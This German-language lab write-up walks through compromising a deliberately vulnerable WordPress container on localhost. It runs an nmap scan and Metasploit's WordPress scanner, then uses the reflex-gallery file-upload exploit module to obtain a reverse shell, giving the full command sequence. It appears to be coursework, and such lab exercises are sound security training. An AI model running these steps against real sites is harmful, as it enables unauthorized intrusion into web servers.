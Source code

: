 ***
**Autor**: Manuel Fellner
**Version**: 30.04.2024

## 1. Vorbereitung

Als erstes müssen wir die Webanwendung erst einmal mittels Docker zum laufen bringen:
```shell
$ docker run -p 8080:80 chr0/wp_vuln:latest
```

Wenn wir dann zu `localhost:8080` navigieren, begegnen wir der folgenden wunderschönen Website:

![](https://uploads.mfellner.com/C3MgS7aZmejy.png)

## 2. Aufgabenstellung

### 2.1 Mittels NMAP offene Ports und die darauf laufenden Services ermitteln

Wir starten jetzt mittels `msfconsole` die Metasploit command line.
Mit dem folgenden Befehl scannen wir dann alle Ports und services am Localhost:

```shell
msf6 > nmap -v -sV 127.0.0.1
```

Wir bekommen dann folgende Ausgabe und sehen auch den `8080` Port unserer WordPress Anwendung:

![](https://uploads.mfellner.com/wZg7lhZouJ4f.png)

Folgende Ausgabe:

`8080/tcp open  http            Apache httpd 2.4.10 ((Debian))`

### 2.2 WordPress exploit suchen und ausnutzen

Nun ist es an der Zeit einen WordPress exploit zu suchen und auszunutzen.

Als nächstes suchen wir einmal alle Metasploit Einträge über WordPress:

```
msf6 > search exploit name:wordpress
```

Dies gibt uns die folgende Ausgabe:

![](https://uploads.mfellner.com/us5SVVQ9sTi1.png)

Die markierten Einträge sind jetzt wirklich spezifische Exploits.

Da wir jetzt wissen wie wir in Metasploit nach Exploits suchen, können wir uns einmal darauf konzentrieren, die Applikation genauer unter die Lupe zu nehmen.

Dies machen wir mit dem folgenden Metasploit Moduls: `auxiliary/scanner/http/wordpress_scanner`:

```shell
msf6 > use auxiliary/scanner/http/wordpress_scanner
# Damit kann man die Optionen bzw. Einstellungen des jeweiligen Moduls
# einsehen, wichtig sind hier z.B. rhosts und rport
msf6 auxiliary(scanner/http/wordpress_scanner) > options
# setzen der wichtigen Optionen:
msf6 auxiliary(scanner/http/wordpress_scanner) > set rhosts 127.0.0.1
msf6 auxiliary(scanner/http/wordpress_scanner) > set rport 8080

# Modul starten - scannen der Applikation
msf6 auxiliary(scanner/http/wordpress_scanner) > run
```

Mit diesem Befehl können wir uns jetzt Details wie z.B. die WordPress Version, die installierten Themes, die installierten Plugins, etc. ansehen.

Der spezifische Output ist hier der folgende:

![](https://uploads.mfellner.com/weTzLMEAdiMs.png)

Was wir hier interessantes sehen:
	- Ein installiertes, nämlich das `"reflex-gallery"` Plugin in der Version `3.1.3` wurde entedeckt 

Wenn wir jetzt ein bisschen recherchieren, finden wir schnell heraus, dass das Plugin einen [Arbitrary File Upload Exploit](https://www.exploit-db.com/exploits/36374) besitzt.
Suchen wir doch einmal mittels `search name: reflex` in Metasploit, ob es einen Exploit dafür gibt:

![](https://uploads.mfellner.com/ORFXSmBVrAqw.png)

Es gibt einen Exploit! Dann verwenden wir ihn einmal:

```shell
msf6 > use exploit/unix/webapp/wp_reflexgallery_file_upload
# Anzeigen der Optionen die gesetzt werden müssen/können
msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > show options
# Setzen der benötigten Optionen
msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set rhosts 127.0.0.1
msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > set rport 8080
# Starten des Exploits
msf6 exploit(unix/webapp/wp_reflexgallery_file_upload) > run
```

> Notiz an mich selbst: Bei reverse shell exploits immer schauen, dass der Port auch von der Firewall freigegeben ist! Also lieber einmal mittels ufw status checken und/oder mittels ufw allow [port] erlauben. Ansonsten funktioniert die shell nicht!

Und wir bekommen den folgenden Output:

![](https://uploads.mfellner.com/PGFhGVhOaXp4.png)

Die reverse shell funktioniert! Nun befinden wir uns als Benutzer auf dem Webserver.

Damit wäre die GKv erfüllt!
